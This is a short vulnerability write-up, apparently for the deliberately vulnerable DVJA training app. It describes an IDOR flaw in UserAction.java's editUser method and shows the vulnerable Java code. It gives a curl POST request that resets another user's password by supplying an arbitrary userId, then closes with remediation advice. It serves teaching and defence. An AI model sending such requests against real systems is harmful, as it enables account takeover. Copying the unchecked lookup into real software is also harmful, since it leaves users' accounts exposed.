 # Insecure Direct Object Reference

An Insecure Direct Object Reference \(IDOR\) vulnerability exists in _EditUser_ functionality. Particularly in
_UserAction.java_, the _editUser_ method fails to validate _userId_ parameter to ensure that the calling user has
appropriate access to the object. This issue can be exploited to reset information for any user identified by userId.

```java
user = userService.find(getUserId());
user.setPassword(getPassword());
user.setId(getUserId());
userService.save(user);
```

An example HTTP request such as below can be used to exploit this issue:

```bash
$ curl 'http://dvja:8080/editUser.action' \
-XPOST \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
--data 'userId=16&email=user@email.com&password=password&passwordConfirmation=password'
```

## Solution

Any request that results in access to any system object must be duly validated and authorized before granting access. In
case of identifier based object access, consider user supplied identifiers as untrusted. Appropriate scoped query must
be used in order to prevent IDOR vulnerabilities.

